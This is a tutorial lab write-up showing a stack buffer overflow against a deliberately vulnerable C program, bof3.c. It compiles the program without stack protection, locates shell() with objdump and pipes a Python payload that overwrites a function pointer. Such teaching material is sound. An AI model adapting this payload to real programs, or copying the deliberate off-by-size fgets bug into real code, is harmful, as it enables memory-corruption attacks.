 # Buffer Overflow Attack on `bof3.c`

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

void shell()
{
    printf("You made it! The shell() function is executed\n");
}

void sup()
{
    printf("Congrat!\n");
}

void main()
{
    int var;
    void (*func)() = sup;
    char buf[128];
    fgets(buf, 133, stdin);
    func();
}
```

This program has a vulnerability similar to the previous example ([`bof2.c`](bof2.md)). Although it uses `fgets()` to limit input size, the input limit (133 characters) exceeds the size of the `buf[128]` buffer, making it vulnerable to a buffer overflow attack.

The target is to exploit this vulnerability by modifying the `func` pointer, which initially points to the `sup()` function, to instead point to the `shell()` function.

## Compiling the Program

As with previous examples ([bof1.c](./bof1.md) and [bof2.c](./bof2.md)), we compile the source code using `-fno-stack-protector` to disable the stack protector, which prevents stack overflows from being detected at runtime.

```bash
gcc -g bof3.c -o bof3.o -fno-stack-protector -mpreferred-stack-boundary=2
```

![gcc](./img/bof3/gcc.png)
A new executable file, `bof3.o`, is created.

## Stack Frame of `main()` Function

Here’s the stack frame in the `main()` function, with `buf[128]` and the function pointer `func`:

![main() stack frame](./img/bof3/stackframe.png)

## Finding the Address of the `shell()` Function

In order to redirect execution to `shell()`, we first need to find its address. We can do this using the `objdump` command.

```bash
objdump -d bof3.o | grep shell
```

### Result

![address of shell()](./img/bof3/objdump.png)
The address of the `shell()` function is `0x0804845b`. We will input this address in reverse order as `5b 84 04 08` (Little Endian format).

After our attack, the stack frame will look like this:

![new stack frame](./img/bof3/new_stackframe.png)

The value of the function pointer `*func` should now be `0x0804845b`, pointing to `shell()`.

## Crafting the Input for the Attack

To exploit this vulnerability, we need to:

1. Fill the buffer `buf[128]` with 128 characters.
2. Overwrite the address stored in `*func` with the address of `shell()` (`0x0804845b`).

We can use Python to craft the input:

```bash
echo $(python -c "print('a' * 128 + '\x5b\x84\x04\x08')")
```

### Explanation:

-   `'a' * 128`: Fills the `buf[128]` buffer.
-   `'\x5b\x84\x04\x08'`: The Little Endian representation of the `shell()` function's address, overwriting the `func` pointer.

### Injecting the Payload

We will pipe the crafted input into the program:

```bash
echo $(python -c "print('a' * 128 + '\x5b\x84\x04\x08')") | ./bof3.o
```

### Result:

![Result](./img/bof3/result.png)

The message confirms that we successfully redirected execution to the `shell()` function, demonstrating a successful buffer overflow attack.

